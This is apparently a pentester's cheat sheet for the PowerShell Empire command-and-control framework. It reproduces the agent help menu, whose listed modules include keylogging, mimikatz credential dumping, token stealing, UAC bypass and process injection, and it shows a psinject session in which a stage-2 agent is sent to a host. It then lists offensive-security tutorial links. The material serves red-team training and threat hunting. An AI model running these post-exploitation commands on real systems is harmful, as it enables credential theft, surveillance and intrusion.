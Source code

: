 # Interactive Shell

Search Tag(s): #empire #command-and-control #interactive-shell #help-menu

## 01 - Help Menu

```
(Empire: agents) > interact WindowsWS01
(Empire: WindowsWS01) > help

┌Help Options────┬─────────────────────────────────────┬───────────────────────────────┐
│ Name           │ Description                         │ Usage                         │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ display        │ Display an agent property           │ display <property_name>       │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ download       │ Tasks an the specified agent to     │ download <file_name>          │
│                │ download a file.                    │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ help           │ Display the help menu for the       │ help                          │
│                │ current menu                        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ history        │ Display last number of task results │ history [<number_tasks>]      │
│                │ received.                           │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ info           │ Display agent info.                 │ info                          │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ killdate       │ Set an agent's killdate             │ killdate <kill_date>          │
│                │ (01/01/2020)                        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ proxy          │ Proxy management menu for           │ proxy                         │
│                │ configuring agent proxies           │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ script_command │ "Execute a function in the          │ shell_command <script_cmd>    │
│                │ currently imported PowerShell       │                               │
│                │ script."                            │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ script_import  │ Uploads a PowerShell script to the  │ script_import                 │
│                │ server and runs it in memory on the │ <local_script_location>       │
│                │ agent. Use '-p' for a file          │                               │
│                │ selection dialog.                   │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ shell          │ Tasks an the specified agent to     │ shell <shell_cmd>             │
│                │ execute a shell command.            │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ sleep          │ Tasks an the specified agent to     │ sleep <delay> <jitter>        │
│                │ update delay (s) and jitter (0.0 -  │                               │
│                │ 1.0)                                │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ update_comms   │ Update the listener for an agent.   │ update_comms <listener_name>  │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ upload         │ Tasks an the specified agent to     │ upload <local_file_directory> │
│                │ upload a file. Use '-p' for a file  │                               │
│                │ selection dialog.                   │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ view           │ View specific task and result       │ view <task_id>                │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ vnc            │ Launch a VNC server on the agent    │ vnc                           │
│                │ and spawn a VNC client              │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ vnc_client     │ Launch a VNC client to a remote     │ vnc_client <address> <port>   │
│                │ server                              │ <password>                    │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ workinghours   │ Set an agent's working hours        │ workinghours <working_hours>  │
│                │ (9:00-17:00)                        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ whoami         │ Tasks an agent to run the shell     │ whoami                        │
│                │ command 'whoami'                    │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ ps             │ Tasks an agent to run the shell     │ ps                            │
│                │ command 'ps'                        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ sc             │ Tasks the agent to run module       │ sc                            │
│                │ powershell/collection/screenshot.   │                               │
│                │ Default parameters include: Ratio:  │                               │
│                │ 80                                  │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ keylog         │ Tasks the agent to run module       │ keylog                        │
│                │ powershell/collection/keylogger.    │                               │
│                │ Default parameters include: Sleep:  │                               │
│                │ 1                                   │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ sherlock       │ Tasks the agent to run module       │ sherlock                      │
│                │ powershell/privesc/sherlock.        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ mimikatz       │ Tasks the agent to run module power │ mimikatz                      │
│                │ shell/credentials/mimikatz/logonpas │                               │
│                │ swords.                             │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ psinject       │ Tasks the agent to run module       │ psinject <Listener> <ProcId>  │
│                │ powershell/management/psinject.     │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ revtoself      │ Tasks the agent to run module       │ revtoself                     │
│                │ powershell/credentials/tokens.      │                               │
│                │ Default parameters include:         │                               │
│                │ RevToSelf: True                     │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ shinject       │ Tasks the agent to run module       │ shinject <Listener> <ProcId>  │
│                │ powershell/management/shinject.     │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ spawn          │ Tasks the agent to run module       │ spawn <Listener>              │
│                │ powershell/management/spawn.        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ steal_token    │ Tasks the agent to run module       │ steal_token <ProcessID>       │
│                │ powershell/credentials/tokens.      │                               │
│                │ Default parameters include:         │                               │
│                │ ImpersonateUser: True               │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ bypassuac      │ Tasks the agent to run module power │ bypassuac <Listener>          │
│                │ shell/privesc/bypassuac_eventvwr.   │                               │
└────────────────┴─────────────────────────────────────┴───────────────────────────────┘

(Empire: WindowsWS01) >
```

## 02 - Usage

### 2.1 - Process Manipulation

`(Empire: WinWS01Admin) > psinject <listener> <pid>`

```
(Empire: WinWS01Admin) > psinject http_80 460
[*] Tasked admin to run Task 3
[+] New agent F38APL75 checked in
[*] Sending agent (stage 2) to F38APL75 at 10.0.2.4
(Empire: WinWS01Admin) > interact F38APL75
```

---
## References

* [Beginning Powershell Empire Attack](https://www.securitynik.com/2022/02/beginning-powershell-empire-attack-in.html)

* [HackMag Powershell Empire Modules](https://hackmag.com/security/powershell-empire/)

* [Empire For Pentester Active Directory Enumeration](https://www.hackingarticles.in/empire-for-pentester-active-directory-enumeration/)

* [Powershell Empire For Pentester Mimikatz Module](https://www.hackingarticles.in/powershell-empire-for-pentester-mimikatz-module/)

* [OSX Exploitation with Powershell Empire](https://www.hackingarticles.in/osx-exploitation-with-powershell-empire/)

* [Hacking with Empire Powershell Post Exploitation Agent](https://www.hackingarticles.in/hacking-with-empire-powershell-post-exploitation-agent/)

* [Data Exfiltration Using Powershell Empire/](https://www.hackingarticles.in/data-exfiltration-using-powershell-empire/)

* [Part 2 Intro to Threat Hunting Understanding the Attacker Mindset with Powershell Empire and the Mandiant Attack Lifecycle](https://holdmybeersecurity.com/2020/01/23/part-2-intro-to-threat-hunting-understanding-the-attacker-mindset-with-powershell-empire-and-the-mandiant-attack-lifecycle/)

* [Command and Control with Powershell Empire part 1](https://www.snaplabs.io/insights/command-and-control-with-powershell-empire-pt1)

* [Command and Control with Powershell Empire part 2](https://www.snaplabs.io/insights/command-and-control-with-powershell-empire-pt2)

* [Command and Control with Powershell Empire part 3](https://www.snaplabs.io/insights/command-and-control-with-powershell-empire-pt3)

* [Lateral Movement Methods and Good Practices](https://www.snaplabs.io/insights/lateral-movement-methods-and-good-practices)

* [Empire Module Library](https://www.infosecmatter.com/empire-module-library/)